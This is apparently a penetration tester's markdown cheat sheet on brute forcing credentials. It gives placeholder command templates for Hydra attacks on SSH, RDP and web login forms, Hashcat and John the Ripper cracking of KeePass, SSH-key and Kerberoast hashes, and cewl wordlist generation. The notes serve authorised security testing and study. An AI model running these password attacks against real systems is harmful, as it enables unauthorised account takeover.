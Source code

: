
### Brute forcing with ffuf
https://medium.com/@opabravo/manually-exploit-blind-sql-injection-with-ffuf-92881a199345

## ~ Brute Forcing

### Check for default credentials
- Google default credentials for the application (duh)
- `grep -r $searchTerm /usr/share/seclists`

### Hydra
- `hydra -l $username -P /usr/share/wordlists/rockyou.txt -s $alternatePort ssh://$IP`
- `hydra -L /usr/share/wordlists/dirb/others/names.txt -p "$password" rdp://$IP
- Web page example 1:`hydra -l $user -P /usr/share/wordlists/rockyou.txt $IP http-post-form " /index.php:fm_usr=user&fm_pwd=\^PASS^:Login failed. Invalid"`
- Web page example 2: `hydra -l '$username' -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt $IP http-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect"`
	- -`"$loginpage:$parameters:$failMessage$"`
- Basic Auth: `hydra -l admin -P /usr/share/wordlists/rockyou.txt $URL http-get`
- `hydra -L $userlist -p $pass -s 8081 $IP http-post-form '/$path:username=^USER64^&password=^PASS64^:Incorrect'`
	- where -s is for alternate ports, like 8081 and the USER and PASS are base64 encoded
- `hydra -l $user -P $passlist 'http-post-form://192.168.198.61:8081/$path$:username=^USER64^&password=^PASS64^:C=/:F=403'` 
	- Where failure is indicate by 403 error
- Notes:
	- To get Hydra to base64 each item in a list, add a 64 after the USER and PASS variables. (^USER64^ and ^PASS64^)

### Hashcat
- `hashcat -m 0 $hashfile /usr/share/wordlists/rockyou.txt -r 15222.rule --force --show`
- `hashcat -m 13400 $keepassHashFile /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force --show`
- check hashcat for which mode to use (searching for KeePass in this case)
	- `hashcat --help | grep -i "KeePass"`
	- `hashcat -h | grep -i "ssh"`

### john the ripper
- `ssh2john id_rsa > ssh.hash` 
- `keepass2john name.kdbx > keepass1.hash`
- `john --format=krb5tgs sql_svc.kerberoast --wordlist=/usr/share/wordlists/rockyou.txt`

### Misc
- If you're using Burp Intruder for anything, make sure to go to options to set custom error message and follow redirects
- There is http-get-form and https-post-form
- Can create a wordlist from a web page using `cewl`
	- `cewl -d -m 3 $URL -w $output.txt`
		- d = depth, m = minimum letters
	- `cewl $URL > pass`
	- `cewl --lowercase $URL`
- Generate a username list from names: https://github.com/jseidl/usernamer
